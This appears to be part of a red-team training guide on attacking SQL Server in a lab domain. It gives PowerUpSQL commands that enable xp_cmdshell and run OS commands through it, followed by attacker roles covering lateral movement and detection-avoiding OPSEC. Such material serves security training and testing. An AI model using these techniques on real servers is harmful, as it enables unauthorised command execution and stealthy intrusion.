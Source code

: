 #### **Command Execution and Exploitation**
```powershell
# xp_cmdshell command execution
Invoke-SQLOSCmd -Instance "SQL01.cybercorp.local" -Command "whoami"
Invoke-SQLOSCmd -Instance "SQL01.cybercorp.local" -Command "hostname"
Invoke-SQLOSCmd -Instance "SQL01.cybercorp.local" -Command "ipconfig"

# xp_cmdshell enable/disable
Get-SQLXpCmdShell -Instance "SQL01.cybercorp.local"
Get-SQLXpCmdShell -Instance "SQL01.cybercorp.local" -Verbose
Get-SQLXpCmdShell -Instance "SQL01.cybercorp.local" -Enable

# SQL Server configuration analysis
Get-SQLServerConfiguration -Instance "SQL01.cybercorp.local"
Get-SQLServerConfiguration -Instance "SQL01.cybercorp.local" -ConfigName "xp_cmdshell"
Get-SQLServerConfiguration -Instance "SQL01.cybercorp.local" -Verbose
```

**Command Explanations:**
- **`Invoke-SQLOSCmd`**: Executes OS commands through xp_cmdshell
- **`Get-SQLXpCmdShell`**: Analyzes and controls xp_cmdshell configuration
- **`Get-SQLServerConfiguration`**: Examines SQL Server configuration settings

---

## 👥 **PERSONAS: SQL SERVER ENUMERATION ROLES**

### **🔍 Database Reconnaissance Specialist**
- **Focus**: SQL Server discovery, SPN enumeration, instance mapping
- **Tools**: Get-DomainComputer, sqlcmd, PowerUpSQL
- **Output**: SQL Server topology, instance inventory, service locations
- **Timeline**: 2-4 hours for comprehensive mapping

### **⚔️ SQL Security Assessor**
- **Focus**: Security configuration analysis, vulnerability identification
- **Tools**: PowerUpSQL, sqlcmd queries, PowerView filters
- **Output**: Security assessment, risk matrix, attack vectors
- **Timeline**: 1-2 hours for security analysis

### **🚀 Database Exploitation Engineer**
- **Focus**: xp_cmdshell abuse, database links, lateral movement
- **Tools**: PowerUpSQL, sqlcmd, custom SQL queries
- **Output**: Command execution, lateral movement paths, elevated access
- **Timeline**: 30 minutes to 2 hours depending on complexity

### **🛡️ OPSEC Coordinator**
- **Focus**: Stealth operations, detection avoidance, cleanup
- **Tools**: Invisi-Shell, timing controls, log analysis
- **Output**: Stealth protocols, detection metrics, cleanup procedures
- **Timeline**: Continuous throughout operation

---